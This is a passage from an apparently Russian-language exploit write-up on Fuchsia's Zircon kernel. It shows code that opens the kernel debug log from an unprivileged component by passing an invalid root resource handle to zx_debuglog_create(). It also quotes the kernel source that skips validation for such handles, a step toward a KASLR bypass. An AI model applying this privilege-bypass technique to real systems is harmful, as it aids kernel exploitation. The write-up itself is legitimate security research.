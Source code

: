 В этом коде создается специальный канал (Fuchsia channel), который затем используется для протокола `ReadOnlyLog`. Для этого вызываются функции из библиотеки `fdio`, которая предоставляет единый интерфейс для файлов, сокетов, каналов, сервисов в Fuchsia. При запуске компонента система выдает следующую ошибку:

```
[ffx-laboratory:a13x_pwns_fuchsia] WARNING: Failed to route protocol `fuchsia.boot.ReadOnlyLog` with
  target component `/core/ffx-laboratory:a13x_pwns_fuchsia`: A `use from parent` declaration was found
  at `/core/ffx-laboratory:a13x_pwns_fuchsia` for `fuchsia.boot.ReadOnlyLog`, but no matching `offer`
  declaration was found in the parent
[ffx-laboratory:a13x_pwns_fuchsia] INFO: [!] try opening kernel log...
[ffx-laboratory:a13x_pwns_fuchsia] INFO: ReadOnlyLogGet failed: -24
```

Это корректное поведение. Мой компонент не имеет заявленных привилегий. Со стороны системы нет разрешения `offer` на использование протокола `fuchsia.boot.ReadOnlyLog`, поэтому Fuchsia возвращает ошибку при подключении канала к ядерному журналу. Не судьба...

Я отбросил мысль об обходе KASLR с помощью утечки информации из ядерного журнала и стал бродить по исходному коду Zircon в ожидании новой идеи. Тут вдруг я наткнулся на системный вызов `zx_debuglog_create()`, который дает совсем другой способ доступа к ядерному журналу:

```c
zx_status_t zx_debuglog_create(zx_handle_t resource,
                               uint32_t options,
                               zx_handle_t* out);
```

В документации по [системным вызовам Fuchsia](https://fuchsia.dev/fuchsia-src/reference/syscalls/debuglog_create?hl=en) говорится, что аргумент `resource` __обязательно должен__ иметь тип `ZX_RSRC_KIND_ROOT`. Мой прототип эксплойта, конечно же, не обладал таким ресурсом, но я все равно попробовал вызвать `zx_debuglog_create()` наудачу:

```c
zx_handle_t root_resource; // global var initialized by 0

int main(int argc, const char** argv)
{
  zx_status_t status;
  zx_handle_t debuglog;

  status = zx_debuglog_create(root_resource, ZX_LOG_FLAG_READABLE, &debuglog);
  if (status != ZX_OK) {
    printf("[-] can't create debuglog, no way\n");
    return 1;
  }
```

И этот код сработал! Мой непривилегированный компонент получил доступ к журналу Zircon без необходимых привилегий и при отсутствии ресурса `ZX_RSRC_KIND_ROOT`. Что за чудеса? Я нашел код Fuchsia, который отвечает за обработку этого системного вызова, и рассмеялся:

```c
zx_status_t sys_debuglog_create(zx_handle_t rsrc, uint32_t options, user_out_handle* out) {
  LTRACEF("options 0x%x\n", options);

  // TODO(fxbug.dev/32044) Require a non-INVALID handle.
  if (rsrc != ZX_HANDLE_INVALID) {
    // TODO(fxbug.dev/30918): finer grained validation
    zx_status_t status = validate_resource(rsrc, ZX_RSRC_KIND_ROOT);
    if (status != ZX_OK)
      return status;
  }
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4